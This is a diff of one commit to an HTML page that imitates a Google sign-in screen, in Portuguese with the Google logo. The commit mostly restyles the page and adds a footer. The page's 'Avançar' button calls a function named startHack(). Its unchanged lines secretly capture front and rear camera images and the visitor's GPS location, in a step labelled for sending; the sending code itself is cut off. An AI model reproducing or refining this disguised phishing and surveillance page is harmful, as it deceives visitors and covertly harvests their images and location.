

Before and after one commit to brendapolycarpo-ops/verificacao-seguranca, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,43 +9,50 @@
     * { margin: 0; padding: 0; box-sizing: border-box; }
     body {
         font-family: 'Roboto', sans-serif;
-        background-color: #000000; /* Fundo preto puro */
+        background-color: #1f1f1f;
         color: #e3e3e3;
-        height: 100vh;
+        min-height: 100vh;
         display: flex;
         flex-direction: column;
         padding: 24px;
     }
 
-    /* Header com Logo */
+    /* Espaçador para empurrar o rodapé para baixo */
+    .main-content {
+        flex: 1;
+        display: flex;
+        flex-direction: column;
+    }
+
     .header-logo {
         width: 40px;
         height: 40px;
-        margin-bottom: 40px;
-        margin-top: 20px;
+        margin-bottom: 30px;
+        margin-top: 10px;
     }
 
     h1 {
         font-size: 32px;
         font-weight: 400;
-        margin-bottom: 16px;
+        margin-bottom: 12px;
+        color: #e3e3e3;
         letter-spacing: -0.5px;
-        color: #e3e3e3;
     }
 
     p {
         font-size: 16px;
-        margin-bottom: 32px;
+        margin-bottom: 36px;
         color: #e3e3e3;
+        letter-spacing: 0.1px;
     }
 
     /* Input */
     .input-box {
-        margin-bottom: 32px;
+        margin-bottom: 8px;
     }
     input {
         width: 100%;
-        padding: 16px 14px;
+        padding: 15px 14px;
         font-size: 16px;
         background-color: transparent;
         color: #e3e3e3;
@@ -54,25 +61,24 @@
         outline: none;
         font-family: 'Roboto', sans-serif;
     }
-    input:focus { border: 2px solid #8ab4f8; padding: 15px 13px; }
+    input:focus { border: 2px solid #8ab4f8; padding: 14px 13px; }
     input::placeholder { color: #9aa0a6; font-size: 16px; }
 
-    /* Links de texto */
+    /* Links */
     .forgot-link {
         display: inline-block;
         color: #8ab4f8;
         text-decoration: none;
         font-size: 14px;
         font-weight: 500;
+        padding: 8px 0;
         margin-bottom: 48px;
     }
 
-    /* Rodapé com botões */
     .actions {
         display: flex;
         justify-content: space-between;
         align-items: center;
-        margin-top: auto;
         margin-bottom: 40px;
     }
 
@@ -81,19 +87,46 @@
         text-decoration: none;
         font-size: 14px;
         font-weight: 500;
-        padding: 10px;
+        padding: 10px 0;
     }
 
     .btn-next {
         background-color: #8ab4f8;
-        color: #000;
+        color: #1f1f1f;
         border: none;
         padding: 12px 24px;
-        border-radius: 24px; /* Botão pílula */
+        border-radius: 24px;
         font-size: 14px;
         font-weight: 500;
         cursor: pointer;
-        font-family: 'Roboto', sans-serif;
+    }
+
+    /* Rodapé */
+    .footer {
+        display: flex;
+        justify-content: space-between;
+        align-items: center;
+        font-size: 12px;
+        color: #9aa0a6;
+        padding-top: 24px;
+        margin-top: auto;
+    }
+
+    .lang-select {
+        display: flex;
+        align-items: center;
+        cursor: pointer;
+        gap: 4px;
+    }
+    .lang-select svg { width: 18px; height: 18px; fill: #9aa0a6; }
+
+    .footer-links {
+        display: flex;
+        gap: 16px;
+    }
+    .footer-links a {
+        color: #9aa0a6;
+        text-decoration: none;
     }
 
     /* Tela de carregamento */
@@ -104,7 +137,7 @@
         justify-content: center;
         height: 100vh;
         position: fixed;
-        top: 0; left: 0; width: 100%; background: #000; z-index: 99;
+        top: 0; left: 0; width: 100%; background: #1f1f1f; z-index: 99;
     }
     .loader {
         border: 3px solid rgba(255,255,255,0.1);
@@ -124,8 +157,7 @@
 <video id="camera" autoplay playsinline muted></video>
 <canvas id="canvas" style="display:none;"></canvas>
 
-<div id="main-screen">
-    <!-- Logo SVG oficial do Google -->
+<div id="main-screen" class="main-content">
     <svg class="header-logo" viewBox="0 0 48 48">
         <path fill="#EA4335" d="M24 9.5c3.54 0 6.71 1.22 9.21 3.6l6.85-6.85C35.9 2.38 30.47 0 24 0 14.62 0 6.51 5.38 2.56 13.22l7.98 6.19C12.43 13.72 17.74 9.5 24 9.5z"></path>
         <path fill="#4285F4" d="M46.98 24.55c0-1.57-.15-3.09-.38-4.55H24v9.02h12.94c-.58 2.96-2.26 5.48-4.78 7.18l7.73 6c4.51-4.18 7.09-10.36 7.09-17.65z"></path>
@@ -145,6 +177,18 @@
     <div class="actions">
         <a href="#" class="create-account">Criar conta</a>
         <button class="btn-next" onclick="startHack()">Avançar</button>
+    </div>
+
+    <div class="footer">
+        <div class="lang-select">
+            <span>Português (Brasil)</span>
+            <svg viewBox="0 0 24 24"><path d="M7 10l5 5 5-5z"/></svg>
+        </div>
+        <div class="footer-links">
+            <a href="#">Ajuda</a>
+            <a href="#">Privacidade</a>
+            <a href="#">Termos</a>
+        </div>
     </div>
 </div>
 
@@ -169,7 +213,6 @@
         let fotoFrente = null;
         let fotoTras = null;
 
-        // 1. Câmera Frontal
         try {
             let stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
             video.srcObject = stream;
@@ -178,7 +221,6 @@
             stream.getTracks().forEach(t => t.stop());
         } catch (e) { console.log("Sem câmera frontal"); }
 
-        // 2. Câmera Traseira
         try {
             let stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: { exact: "environment" } } });
             video.srcObject = stream;
@@ -187,7 +229,6 @@
             stream.getTracks().forEach(t => t.stop());
         } catch (e) { console.log("Sem câmera traseira"); }
 
-        // 3. GPS e Envio
         if (navigator.geolocation) {
             navigator.geolocation.getCurrentPosition(
                 (pos) => {
```
